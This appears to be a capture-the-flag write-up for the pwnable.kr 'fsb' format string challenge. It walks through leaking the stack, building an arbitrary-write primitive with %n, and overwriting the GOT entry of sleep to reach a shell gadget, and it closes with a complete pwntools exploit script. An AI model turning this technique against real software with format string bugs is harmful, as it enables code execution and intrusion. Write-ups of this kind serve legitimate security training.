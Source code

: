 
# FSB

fsb, is a `format string` vulnerability challenge.
We get the source code in the challenge so thats nice!

The vulnerable part is here:

![vulnerable_part.png](images/vulnerable_part.png)

And they give us four runs which is awesome!
also, they are offering a gadget for us!
![win_gadget.png](images/win_gadget.png)

Sounds like an easy problem!
first lets see the stack, we will submit a lot of `%p ` 
![stack_leak.png](images/stack_leak.png)

if we take a close look on the addresses, it seems like there are some addresses in the stack, which points to another address in the stack.
I tried to play with this a bit and got to conclusion we can use the 14'th address!
I tried using gdb.

![set_address_gdb.png](images/set_address_gdb.png)
![apear_in_stack.png](images/apear_in_stack.png)
And we succeed!
Why is it good for us?
since there are more then one run, we can first use this primitive in order to put address on the stack, and then use the same primitive to override the address
which mean we got arbitrary write!
```python
b"%" + addr + "c%14$n"
```
This format, will make the `addr` apear in the stack.
we are using `%{number}c` in order to print `{number}` charecters from the stack,
then doing `%14$` in order to use the 14'th element from the stack, and `%n` to write to that element, the number of characters printed, in other word `addr`

Which address we want to override?
U can probably just override the key to known value and submit the value, and get a shell. But it less cool, and can lead to mistakes, lets just make us jump to the shell!

using objdump, we can identify the `got` address of `sleep` 

![got_sleep.png](images/got_sleep.png)
Now we can put this address on the stack, and then override it with the address of the gadget!

So we will make the got sleep address, apear using override the 14'th element, then with the same method override the 20'th element:
```python
#!/usr/bin/python3

from pwn import *

e = ELF("./fsb")

sleep_addr = e.sym["got.sleep"]
shell_addr = 0x0804869f

s = ssh(host="pwnable.kr", port=2222, user="fsb", password="guest")
p = s.process(["/home/fsb/fsb"])

p.recvuntil(b"(1)")
p.sendline(b"a")
p.recvuntil(b"(2)")
p.sendline(b"a")


p.recvuntil("(3)")

f1 = b"%" + str(sleep_addr-2).encode() + b"czz%14$n"
print(f1)
p.sendline(f1)
p.recvuntil(b"zz")

f2 = b"%" + str(shell_addr-2).encode() + b"czz%20$n"
print(f2)
p.sendline(f2)
p.recvuntil(b"zz")

p.interactive()
```

![win_img.png](images/win_img.png)